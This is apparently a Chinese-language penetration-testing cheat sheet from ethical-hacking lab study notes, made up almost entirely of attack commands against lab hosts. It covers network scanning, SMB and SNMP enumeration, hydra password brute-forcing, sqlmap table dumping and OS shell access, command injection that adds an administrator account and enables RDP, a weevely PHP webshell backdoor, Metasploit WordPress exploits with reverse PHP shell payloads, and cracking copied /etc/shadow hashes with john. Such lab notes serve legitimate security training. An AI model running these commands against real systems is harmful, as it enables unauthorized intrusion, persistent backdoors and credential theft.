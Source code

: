 ### 掃描與列舉

<details>
  <summary>使用NMAP掃描網路</summary>
  
  ``` console
  nmap -sn 10.10.10.*
  nmap -sn 10.10.10.* --packet-trace
  nmap -sn scanme.nmap.org --packet-trace
  ```
</details>

<details>
  <summary>使用NMAP掃描主機</summary>

  ```console
  nmap 10.10.10.9
  nmap 10.10.10.9 --reason
    最常用的1000個端口/usr/share/nmap/nmap-services
  nmap 10.10.10.9 -p-
  nmap 10.10.10.16 -sU -p53,137-139,161,1900,5353
  nmap -p80 10.10.10.*
  nmap -p80 10.10.10.2,10,13 --reason
  nmap -p80 10.10.10.* --open
  ```
</details>

<details>
  <summary>使用NMAP識別作業系統與服務</summary>

  ```console
  nmap 10.10.10.16 -O
  nmap 10.10.10.16 -sV
  nmap 10.10.10.16 -sVC -p445,3389
  nmap 10.10.10.16 -sV -O -sC -Pn -p445,3389,389,3268
    for windows
  ```
</details>

<details>
  <summary>列舉常見網路服務</summary>

  ```console
  nmap -sU -p161 --open 10.10.10.*
  nmap -sU -p161 -sC 10.10.10.*
  snmp-check 10.10.10.16
  nmap -sU -p161 --script snmp-win32-users 10.10.10.16
  nbtscan 10.10.10.1-254
  enum4linux 10.10.10.16
  hydra -L win32-users.txt -P /usr/share/wordlists/nmap.lst smb://10.10.10.16
  hydra -l jason -P /usr/share/wordlists/nmap.lst smb://10.10.10.16
    smb可換rdp
  enum4linux -u martin -p apple -a 10.10.10.16
    -a可替換-S -U -P
  python3 -m pip install --upgrade impacket
  crackmapexec smb 10.10.10.16 -u martin -p apple --shares
  ```
</details>

### 掃描與攻擊網頁程式

- 參數串改攻擊
<details>
  <summary>MSSQL隱碼攻擊</summary>

  ```console
  sqlmap -u "url" --cookie="<cookie>" 
  sqlmap -u "url" --cookie="<cookie>" --dbs 
  sqlmap -u "url" --cookie="<cookie>" -D dbname --tables 
  sqlmap -u "url" --cookie="<cookie>" -D dbname -T users -dump
  sqlmap -u "url" --cookie="<cookie>" -D dbname -T users --columns --technique=B 
  sqlmap -u "url" --cookie="<cookie>" -D dbname -T users -dump --technique=B 
  sqlmap -u "url" --cookie="<cookie>" --os-shell
  ```
</details>

- MySQL盲隱碼攻擊

<details>
  <summary>命令注入攻擊</summary>

  ```console
  | whoami
  | net user cehp /add
  | net users
  | net localgroup Administrators cehp /add
  | net localgroup Administrators
  | reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
  | netstat -an | findstr :3389
  ```
</details>

<details>
  <summary>Webshell上傳攻擊</summary>

  ```console
  weevely generate cehp backdoor.php
  weevely http://10.10.10.16:8080/dvwa/hackable/uploads/backdoor.php cehp
  whoami
  ```
</details>

<details>
  <summary>利用WPScan破解WordPress使用者密碼</summary>

  ```console
  whatweb http://10.10.10.16:8080/ceh
  wpscan --url http://10.10.10.16:8080/ceh -e u
  wpscan --url http://10.10.10.16:8080/ceh -P /usr/share/wordlists/nmap.lst
  ```
</details>

<details>
  <summary>利用Metasploit攻擊WordPress網站</summary>

  ```console
  sudo service postgresql start
  msfconsole
  use exploit/unix/webapp/wp_admin_shell_upload
  show info
  set rhosts 10.10.10.16
  set rport 8080
  set targeturi /ceh
  set username admin
  set password qwerty@123
  set payload php/reverse_php
  exploit
  whoami
  ```
</details>

- 安裝WordPress

<details>
  <summary>利用外掛漏洞攻擊WordPress網站</summary>

  ```console
  wpscan --url http://10.10.10.16:8080/ceh
  sudo service postgresql start
  msfconsole
  use exploit/unix/webapp/wp_photo_gallery_unrestricted_file_upload
  show info
  set rhosts 10.10.10.16
  set rport 8080
  set targeturi /ceh
  set username cehuser1
  set password green
  set payload php/reverse_php
  exploit
  whoami
  ```
</details>

```console
ls /etc/passwd /etc/shadow
mkdir unix
cp /etc/passwd unix/passwd
cp /etc/shadow unix/shadow
ls unix/

unshadow unix/passwd unix/shadow > unix/pwdump.txt
john unix/pwdump.txt
john unix/pwdump.txt --show

網站
crackstation.net
gchq.github.io/CyberChef/
md5cal.com

ftp 10.10.10.10
jason
qwerty
get Flag.txt
```
